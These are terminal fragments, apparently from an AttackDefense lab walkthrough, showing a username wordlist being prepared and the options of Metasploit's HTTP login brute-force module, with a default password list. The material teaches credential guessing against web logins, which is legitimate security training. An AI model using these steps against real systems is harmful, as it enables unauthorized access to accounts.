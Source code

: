 ```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
root@attackdefense:~# pwd
/root
root@attackdefense:~# vim users.txt
root@attackdefense:~# cat users.txt 
admin
backup
bin
daemon
dbadmin
games
gnats
irc
list
lp
mail
man
news
nobody
proxy
rooty
sync
sys
ultra
uucp
```

```
msf5 > use auxiliary/scanner/http/http_login
msf5 auxiliary(scanner/http/http_login) > show options

Module options (auxiliary/scanner/http/http_login):

   Name              Current Setting                                                           Required  Description
   ----              ---------------                                                           --------  -----------
   AUTH_URI                                                                                    no        The URI to authenticate against (default:auto)
   BLANK_PASSWORDS   false                                                                     no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                         yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                     no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                     no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                     no        Add all users in the current database to the list
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   REQUESTTYPE       GET                                                                       no        Use HTTP-GET or HTTP-PUT for Digest-Auth, PROPFIND for WebDAV (default:GET)
   RHOSTS                                                                                      yes       The target address range or CIDR identifier
   RPORT             80                                                                        yes       The target port (TCP)
```